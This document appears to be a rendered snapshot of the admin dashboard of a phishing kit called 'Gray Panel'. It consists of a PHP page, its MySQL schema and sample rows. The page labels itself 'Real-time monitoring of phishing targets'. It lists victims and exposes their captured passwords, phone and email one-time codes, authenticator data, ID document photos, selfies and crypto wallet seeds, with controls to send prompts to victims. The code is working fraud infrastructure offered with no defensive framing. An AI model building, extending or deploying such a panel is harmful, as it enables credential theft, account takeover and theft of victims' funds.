
The page /admin/dashboard.php (signed in) on the database its author committed.
### tables this page shows
CREATE TABLE `user_submissions` (
  `id` int NOT NULL AUTO_INCREMENT,
  `token` varchar(255) DEFAULT NULL,
  `activity` varchar(255) DEFAULT NULL,
  `email` varchar(255) DEFAULT NULL,
  `data` text,
  `status` varchar(255) DEFAULT NULL,
  `password` varchar(255) DEFAULT NULL,
  `phone_otp` varchar(255) DEFAULT NULL,
  `created_at` timestamp NULL DEFAULT CURRENT_TIMESTAMP,
  `updated_at` timestamp NULL DEFAULT CURRENT_TIMESTAMP ON UPDATE CURRENT_TIMESTAMP,
  `ip_address` varchar(45) DEFAULT NULL,
  `user_agent` text,
  `auth_app` text,
  `login_url` varchar(255) DEFAULT NULL,
  `email_otp` varchar(255) DEFAULT NULL,
  `email_app` varchar(255) DEFAULT NULL,
  `front` text,
  `back` text,
  `selfie` text,
  `seed` text,
  `vault_crypto` text,
  `vault_code` varchar(255) DEFAULT NULL,
  PRIMARY KEY (`id`),
  UNIQUE KEY `token` (`token`)
);

### admin/dashboard.php (the view, shortened to what this page needs)
<?php
require_once 'db_connection.php';
$sql = "SELECT id, token, activity, email, data, status, password, phone_otp, created_at, updated_at, ip_address, user_agent, auth_app, login_url, email_otp, email_app, seed FROM user_submissions";
$result = $conn->query($sql);
$num_rows = $result->num_rows;
$usTimeZones = [
    'America/New_York',
    'America/Chicago',
    'America/Denver',
    'America/Los_Angeles'
];
$timeZones = [];
foreach ($usTimeZones as $timeZone) {
    $dateTime = new DateTime('now', new DateTimeZone($timeZone));
    $timeZones[$timeZone] = $dateTime->format('Y-m-d H:i:s');
}
?>
<!DOCTYPE html>
<html lang="en">
<head>
</head>
<body>
    <header>
        <div class="header-left">
            <div class="brand-logo">GP</div>
            <div class="brand-title">Gray Panel</div>
            <div class="stats-indicator">Active: <?php echo $num_rows; ?></div>
        </div>
        <div class="buttons-container">
            <button class="btn btn-secondary" id="reveal-button" onclick="toggleSpoiler()">View Seed</button>
            <button class="btn btn-primary" id="updateSeed">Generate Seed</button>
            <button class="btn btn-secondary" onclick="window.open('vault_management.php', '_blank')">🏦 Vault</button>
            <button class="btn btn-secondary" id="refreshButton">Refresh</button>
            <button class="btn btn-danger" type="submit" id="logoutButton">Log out</button>
        </div>
        <div class="sound-toggle">
            <button id="soundToggle" class="sound-btn" title="Toggle notification sounds">
                <span id="soundIcon">🔊</span>
            </button>
        </div>
    </header>
    <main>
        <div class="dashboard-container">
            <div class="table-header">
                <div class="table-title">Active Sessions</div>
                <div class="table-subtitle">Real-time monitoring of phishing targets</div>
            </div>
        <table id="dataTable">
            <thead>
                <tr>
                    <th>#</th>
                    <th>Token</th>
                    <th>Activity</th>
                    <th>Email</th>
                    <th>Status</th>
                    <th class="actions">Actions</th>
                </tr>
            </thead>
            <tbody >
            <?php
                $sql = "SELECT id, token, activity, email, data, status, password, phone_otp, created_at, updated_at, ip_address, user_agent, auth_app, login_url, email_otp, email_app, seed FROM user_submissions";
                $result = $conn->query($sql);
                if ($result->num_rows > 0) {
                    $rows = [];
                    while ($row = $result->fetch_assoc()) {
                        $rows[] = $row;
                    }
                    $rows = array_reverse($rows);
                    foreach ($rows as $row) {
                        echo "<tr>";
                        echo "<td>" . $row["id"] . "</td>";
                        echo "<td>" . $row["token"] . "</td>";
                        echo "<td>" . $row["activity"] . "</td>";
                        echo "<td>" . $row["email"] . "</td>";
                        echo "<td>" . $row["status"] . ($row["status"] == "online" ? " 🔵" : " 🔴") . "</td>";
                        echo "<td class='actions'>";
                        echo "<button class='action-btn send-button' data-userid='" . $row["id"] . "' data-token='" . $row["token"] . "'>Send</button>";
                        echo "<button class='action-btn view-button' data-email='" . $row["email"] . "' data-password='" . $row["password"] . "' data-phoneotp='" . $row["phone_otp"] . "' data-createdat='" . $row["created_at"] . "' data-updatedat='" . $row["updated_at"] . "' data-ipaddress='" . $row["ip_address"] . "' data-useragent='" . $row["user_agent"] . "' data-authapp='" . $row["auth_app"] . "' data-loginurl='" . $row["login_url"] . "' data-emailotp='" . $row["email_otp"] . "' data-seed='" . $row["seed"] . "' data-token='" . $row["token"] . "'>View</button>";
                        echo "<button class='action-btn delete-button'>Delete</button>";
                        echo "</td>";
                        echo "</tr>";
                    }
                } else {
                    echo "<tr><td colspan='6'>No data found</td></tr>";
                }
                ?>
        </table>
        </div>
    </main>
        <div class="time-zones">
            <div class="time-zones-header">
                <h3>⏰ World Clock</h3>
                <button class="add-timezone-btn" onclick="showTimezoneSelector()">+ Add</button>
            </div>
            <div class="timezones-container">
            <?php foreach ($timeZones as $timeZone => $time): ?>
                    <div class="time-zone" data-timezone="<?php echo $timeZone; ?>">
                        <div class="timezone-left">
                            <div class="timezone-city"><?php echo str_replace('America/', '', $timeZone); ?></div>
                            <div class="timezone-offset">
                                <?php
                                $tz = new DateTimeZone($timeZone);
                                $dt = new DateTime('now', $tz);
                                $offset = $tz->getOffset($dt) / 3600;
                                echo 'UTC' . ($offset >= 0 ? '+' : '') . $offset;
                                ?>
                </div>
        </div>
                        <div class="timezone-right">
                            <div class="timezone-time">
                                <?php
                                $dt = new DateTime('now', new DateTimeZone($timeZone));
                                echo $dt->format('H:i');
                                ?>
        </div>
                            <div class="timezone-date">
                                <?php echo $dt->format('M d'); ?>
    </div>
                        </div>
                    </div>
                <?php endforeach; ?>
            </div>
        </div>
</body>
</html>

### rows shown on the page
user_submissions: id "2", token "145345aa0d6768c05fa876b82f8abba1", activity "IDVerification", email "idontknoweoie@gmail.com", status "online"
user_submissions: id "1", token "admin_token", activity "admin", email "admin"

### other values the page prints
$num_rows "2"
str_replace('America/', '', $timeZone) "New_York"
$offset "-4"
$dt->format('H:i') "18:03"
$dt->format('M d') "Aug 07"
str_replace('America/', '', $timeZone) "Chicago"
$offset "-5"
$dt->format('H:i') "17:03"
str_replace('America/', '', $timeZone) "Denver"
$offset "-6"
$dt->format('H:i') "16:03"
str_replace('America/', '', $timeZone) "Los_Angeles"
$offset "-7"
$dt->format('H:i') "15:03"
